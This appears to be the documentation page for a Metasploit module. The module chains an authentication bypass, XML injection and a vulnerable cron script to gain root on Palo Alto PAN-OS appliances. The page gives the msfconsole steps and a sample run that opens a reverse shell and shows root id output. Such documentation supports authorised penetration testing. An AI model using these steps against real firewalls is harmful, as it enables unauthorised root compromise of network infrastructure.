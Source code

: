 ## Description

This module exploits a chain of vulnerabilities in Palo Alto Networks products running
PAN-OS versions prior to 6.1.19, 7.0.19, 7.1.14, and 8.0.6. This chain starts by using
an authentication bypass flaw to to exploit an XML injection issue, which is then
abused to create an arbitrary directory, and finally gains root code execution by
exploiting a vulnerable cron script. This module uses an initial reverse TLS callback
to stage arbitrary payloads on the target appliance. The cron job used for the final
payload runs every 15 minutes by default and exploitation can take up to 20 minutes.

## Vulnerable Application

This exploit was specifically written against PAN-OS 7.1.0 running in a QEMU (kvm) virtual machine.
This VM is not generally available, but the specific disk image used was `PA-VM-KVM-7.1.0.qcow2`.


## Verification Steps

1. Start msfconsole
2. ```use exploit/linux/http/panos_readsessionvars```
3. ```set RHOST [IP]```
4. ```exploit```
5. You should get a session (eventually)

## Options

**CBHOST** The callback listener address if the default is not accurate (port forwarding, etc)

**CBPORT** The callback listener port


## Scenarios

```
msf5 exploit(linux/http/panos_readsessionvars) > exploit

[*] Started reverse TCP handler on 192.168.122.1:4444
[*] Creating our corrupted session ID...
[*] Verifying that we can access the debug console with our corrupted session ID...
[*] Calling Administrator.get to create directory under /opt/pancfg/mgmt/logdb/config/1/...
[*] Waiting up to 20 minutes for the cronjob to fire and execute...
[*] Waiting for a session, 1200 seconds left...
[*] Waiting for a session, 1169 seconds left...
[*] Waiting for a session, 1138 seconds left...
[*] Waiting for a session, 1107 seconds left...
[*] Waiting for a session, 1076 seconds left...
[*] Waiting for a session, 1044 seconds left...
[*] Waiting for a session, 1013 seconds left...
[*] Waiting for a session, 982 seconds left...
[*] Waiting for a session, 951 seconds left...
[*] Waiting for a session, 920 seconds left...
[+] Sending payload of 67 bytes to 192.168.122.98:39499...
[*] Command shell session 7 opened (192.168.122.1:4444 -> 192.168.122.98:44858) at 2018-05-05 15:45:02 -0500
[!] Remember to manually purge the base directory: 'rm -rf /opt/pancfg/mgmt/logdb/config/1/'
[*] Shutting down payload stager listener...

id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
